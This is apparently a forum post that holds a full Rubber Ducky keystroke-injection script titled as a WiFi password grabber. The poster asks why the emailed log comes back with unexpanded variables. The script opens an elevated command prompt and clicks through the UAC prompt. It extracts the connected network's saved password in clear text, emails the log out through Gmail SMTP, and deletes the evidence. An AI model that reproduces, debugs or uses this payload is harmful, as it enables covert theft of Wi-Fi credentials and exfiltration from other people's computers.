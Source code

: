 `REM Title: WiFi password grabber save to twin duck SD
REM Author: silent_noise
REM Original by: Siem
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt. Then saves to the CD card on the twin duck
REM Adjust time for driver install
DELAY 3000
REM  Minimize all windows
WINDOWS d
REM  Open cmd & bypass UAC
DELAY 500
WINDOWS r
DELAY 200
STRING powershell Start-Process cmd.exe -Verb runAs
ENTER
DELAY 500
ALT y
DELAY 600
REM Define DUCKY drive as %duck%
STRING for /f %d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set duck=%d
ENTER
DELAY 100
REM Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
REM Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
REM Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
REM Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
REM Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
REM  Delete A.txt
STRING del A.txt
ENTER
REM  Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
DELAY 100 
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('SENDER@gmail.com', 'password')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'SENDER"gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECIEVER"gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
`



However When I get the email it comes out like this.
SSID: %A%
Network type: %B%
Authentication: %C%
Password: %D%

Also using it against a windows 7 laptop.